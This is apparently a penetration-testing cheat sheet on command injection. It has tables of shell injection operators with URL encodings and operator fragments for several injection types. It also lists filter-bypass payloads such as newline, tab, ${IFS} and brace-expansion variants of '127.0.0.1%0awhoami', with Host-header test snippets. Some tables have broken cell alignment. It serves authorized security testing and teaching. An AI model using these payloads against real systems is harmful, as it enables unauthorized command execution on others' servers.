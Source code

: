
### Basic Command Injection Methods

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command                             |                                      |                                |
| ------------------ | ------------------- | --------------------- | -------------------------------------------- | ------------------------------------ | ------------------------------ |
| Semicolon          | `;`                 | `%3b`                 | `Both`                                       |                                      |                                |
| New Line           | `\n`                | `%0a`                 | `Both`                                       |                                      |                                |
| Background         | `&`                 | `%26`                 | `Both (second output generally shown first)` |                                      |                                |
| Pipe          |     `\|`                                       | `%7c`                                        | `Both (only second output is shown)` |                                |
| AND                | `&&`                | `%26%26`              | `Both (only if first succeeds)`              |                                      |                                |
| OR                |                   `\|\|`                       |                                             | `%7c%7c`                             | `Second (only if first fails)` |
| Sub-Shell          | <code>``</code>     | `%60%60`              | `Both` *(Linux-only)*                        |                                      |                                |
| Sub-Shell          | `` `$()` ``         | `%24%28%29`           | `Both` *(Linux-only)*                        |                                      |                                |

---


```markdown
| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
| --- | --- | --- | --- |
| Semicolon | `;` | `%3b` | `Both` |
| New Line | `\n` | `%0a` | `Both` |
| Background | `&` | `%26` | `Both (second output generally shown first)` |
| Pipe | `|` | `%7c` | `Both (only second output is shown)` |
| AND | `&&` | `%26%26` | `Both (only if first succeeds)` |
| OR | `||` | `%7c%7c` | `Second (only if first fails)` |
| Sub-Shell | <code>&#96;&#96;</code> | `%60%60` | `Both` *(Linux-only)* |
| Sub-Shell | `` `$()` `` | `%24%28%29` | `Both` *(Linux-only)* |
```

# Injection Operators — Quick Reference

Below is a compact Markdown table of common operators/payload fragments used in various injection classes (SQL, LDAP, XSS, SSRF, XXE, etc.). Use this as a reference when testing or hardening input-handling.

> **Warning:** These strings can be dangerous when executed in vulnerable systems — use only in authorized testing environments.

| Injection Type                            | Common Operators / Fragments                             |    |
| ----------------------------------------- | -------------------------------------------------------- | -- |
| SQL Injection                             | `'`, `;`, `--`, `/* */`                                  |    |
| Command Injection                         | `;`, `&&`                                                |    |
| LDAP Injection                            | `*`, `(`, `)`, `&`, ``                                   | `` |
| XPath Injection                           | `'`, `or`, `and`, `not`, `substring`, `concat`, `count`  |    |
| OS Command Injection                      | `;`, `&`, ``                                             | `` |
| Code Injection                            | `'`, `;`, `--`, `/* */`, `$()`, `${}`, `#{}`, `%{}`, `^` |    |
| Directory Traversal / File Path Traversal | `../`, `..\\`, `%00`                                     |    |
| Object Injection                          | `;`, `&`, ``                                             | `` |
| XQuery Injection                          | `'`, `;`, `--`, `/* */`                                  |    |
| Shellcode Injection                       | `\x`, `\u`, `%u`, `%n`                                   |    |
| Header Injection                          | `\n`, `\r\n`, `\t`, `%0d`, `%0a`, `%09`                  |    |


# Bypassing Space Filters — Notes & Examples

> Quick MD reference showing common ways attackers replace or bypass space characters in inputs (useful for command-injection testing). **Only use these techniques in authorized tests**.

---

## Concept

When spaces are blacklisted (e.g., an input should be an IP address), attackers replace spaces with other characters or constructs that the shell (or interpreter) will treat as separators. Common approaches: percent-encoding, control characters, environment variables, shell expansion, and alternate whitespace characters (tabs, newlines).

---

## Common bypasses (with examples)

| Bypass                             |      Example payload (URL encoded where relevant) | Why it works                                                                                        |
| ---------------------------------- | ------------------------------------------------: | --------------------------------------------------------------------------------------------------- |
| Newline (as injection operator)    |                              `127.0.0.1%0awhoami` | `\n` can terminate headers / inject new command lines; often not filtered.                          |
| Tab instead of space               | `127.0.0.1%0a%09whoami` or `127.0.0.1%0a\twhoami` | Shells accept tabs as argument separators. `%09` is URL-encoded TAB.                                |
| `$IFS` environment variable        |                        `127.0.0.1%0a${IFS}whoami` | `$IFS` expands to a space (and tab/newline by default), so `${IFS}` becomes a separator at runtime. |
| Brace expansion (no literal space) |      `127.0.0.1%0a{ls,-la}` → expands to `ls -la` | Bash brace expansion creates separate arguments without using literal spaces.                       |
| Percent-encoded space variants     |                  `+` or `%20` (sometimes blocked) | `+` is decoded to a space in URL contexts; servers may normalize or block differently.              |
| Mixed encodings / double-encoding  |                    `%2520` (double-encoded `%20`) | Some filters decode only once; double-encoding can slip through naive filters.                      |
| Other whitespace Unicode           | `U+00A0` (non-breaking space) or other whitespace | Some parsers treat Unicode whitespace as separators while filters only block ASCII space.           |

---

## Example HTTP header test snippets

(assume `Host:` header vulnerable to injection)

```http
Host: 127.0.0.1%0awhoami
Host: 127.0.0.1%0a%09whoami    # newline + tab
Host: 127.0.0.1%0a${IFS}whoami # newline + $IFS
Host: 127.0.0.1%0a{ls,-la}     # newline + brace expansion
```

---

## Practical tips for testers

* Try percent-encoding (`%0a`, `%09`, `%20`) and literal control chars where the client allows.
* Test double-encoding (`%25` + code) if single decode filters exist.
* Test environment variable expansions (`$IFS`, `${IFS}`) when the target spawns a shell.
* Try shell expansions (brace expansion, process substitution) for bash-specific targets.
* Use tabs and newline characters — many filters forget them.
* Observe server behavior: "Invalid input" often indicates server-side filtering; change only one character at a time while testing.

---



